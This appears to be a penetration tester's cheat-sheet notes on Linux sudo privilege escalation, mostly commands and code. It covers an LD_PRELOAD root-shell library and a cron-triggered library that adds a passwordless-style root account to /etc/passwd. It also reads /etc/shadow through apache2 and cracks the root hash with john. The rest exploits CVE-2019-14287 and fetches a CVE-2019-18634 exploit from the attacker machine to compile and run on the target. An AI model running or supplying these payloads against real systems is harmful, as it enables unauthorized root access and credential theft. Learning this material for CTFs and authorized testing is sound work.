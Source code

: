 Look into #PATH-Hijacking! 

#### Sudo bins
```bash - kali
sudo -l
```

```firefox
https://gtfobins.github.io/
```

Search what you're looking for, und "Sudo" section.

#### Text editor
Say we find a tool we can run as sudo, knife in this example.  In the manpage, it describes we can edit in a text editor.

![[Pasted image 20220922105222.png]]

```bash - target
sudo knife data bag create 1 2 -e vi
```

```bash - target
:!/bin/sh
```


#### Sudo shell escaping
```bash - kali
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/
```

#### LD Preload
```bash - kali
sudo -l
```

![[Pasted image 20220215144529.png]]

```bash - kali
nano shell.c
```

```bash - kali
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash - kali
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now just run the following command with any option from "sudo -l" :
MAKE SURE to use the full path for the shell.so file.

```bash - kali
sudo LD_PRELOAD=/home/user/shell.so apache2
```

```bash 
id
```

#### LD_LIBRARY_PATH
Here we have a elf file on a cron schedule for every minute.  We can write to /usr/local/lib/dev

![[Pasted image 20220318123807.png]]

We go to /usr/bin and try to execute log-sweeper, we find a message:
![[Pasted image 20220318124218.png]]

We can create a malicious utils.c:

```bash - kali
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' >> /etc/passwd");
}
```

```bash - kali
gcc -fPIC -shared -o utils.so utils.c -nostartfiles
```

Now just put the ustils.so file in the writable LD_LIBRARY_PATH and wait for the cron job to execute.

```bash - kali
su newroot
```

```bash - kali
password
```

#### Apache2

1. List the programs your user is allowed to run via sudo:

```bash
sudo -l
```

 (root) NOPASSWD: /usr/sbin/apache2

Note that apache2 is in the list.

2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand.

3. Run apache2 using sudo , and provide it the /etc/shadow file as a config file:

```bash
sudo apache2 -f /etc/shadow
```

Syntax error on line 1 of /etc/shadow:

```Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration```

![[Pasted image 20211230153252.png]]

4. Extract the root user’s hash from the file.

5. Save the password hash in a file (e.g. hash.txt):

```echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```

6. Crack the password hash using john:

```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])```

password123 (?)

7. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash
su
```

```bash
password123
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root)


#### sudo -l !root

```bash
https://www.exploit-db.com/exploits/47502
```

![[Pasted image 20211230153039.png]]

```bash
sudo -u#-1 /bin/bash
```

![[Pasted image 20211230153054.png]]

#### sudo -l different user
1. List the programs your user is allowed to run via sudo:

```bash
sudo -l
```

![[Pasted image 20211230153125.png]]

2. For each program in the list, see if there is a shell escape sequence on GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/))

3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.

```bash
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```


#### CVE 2019-14287
```firefox - kali
https://www.exploit-db.com/exploits/47502
```

```bash - kali
sudo -u#-1 /bin/bash
```

#### CVE-2019-18634
```bash - kali
sudo -V
```

```bash - kali
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
```

```bash - kali
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
```

```bash - kali
https://www.sudo.ws/security/advisories/pwfeedback/
```

```bash - target
wget http://$KALI/exploit.c
```

```bash - target
gcc exploit.c -o exploit
```

```bash - kali
./exploit
```

Hit enter a time or two.
